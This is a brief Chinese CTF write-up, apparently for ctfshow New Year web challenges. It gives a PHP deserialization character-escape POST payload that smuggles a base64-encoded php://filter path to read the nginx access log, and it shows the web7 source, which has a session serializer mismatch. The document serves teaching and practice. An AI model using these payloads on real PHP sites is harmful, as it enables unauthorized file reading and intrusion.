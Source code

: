 
反序列化字符逃逸，注意序列化的构造就行

```
GET:
?POST=GET

POST:
GET[_SESSION][function]=happyhuyearctfshow&GET[_SESSION][aa]=";s:1:"a";s:1:"a";s:4:"file";s:92:"cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vdmFyL2xvZy9uZ2lueC9hY2Nlc3MubG9n";}
```

在本地var_dump一下

```php
string(208) "a:3:{s:8:"function";s:18:"";s:2:"aa";s:130:"";s:1:"a";s:1:"a";s:4:"file";s:92:"cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vdmFyL2xvZy9uZ2lueC9hY2Nlc3MubG9n";}";s:4:"file";s:16:"L3Jvb3QvZmxhZw==";}"
```

提示出题人拿过flag，那么读一下日志就行：`/var/log/nginx/access.log`

```
127.0.0.1 - - [05/Feb/2022:18:33:29 +0000] "GET /ctfshow HTTP/1.1" 200 45 "-" "curl/7.69.1"
```

访问之



## web7

```php
<?php
include("class.php");
error_reporting(0);
highlight_file(__FILE__);
ini_set("session.serialize_handler", "php");
session_start();

if (isset($_GET['phpinfo']))
{
    phpinfo();
}
if (isset($_GET['source']))
{
    highlight_file("class.php");
}

$happy=new Happy();
$happy();
?>
Happy_New_Year!!!
```

> `phpinfo`
>
> |                           | local_value | master_value  |
> | ------------------------- | ----------- | ------------- |
> | session.serialize_handler | php         | php_serialize |
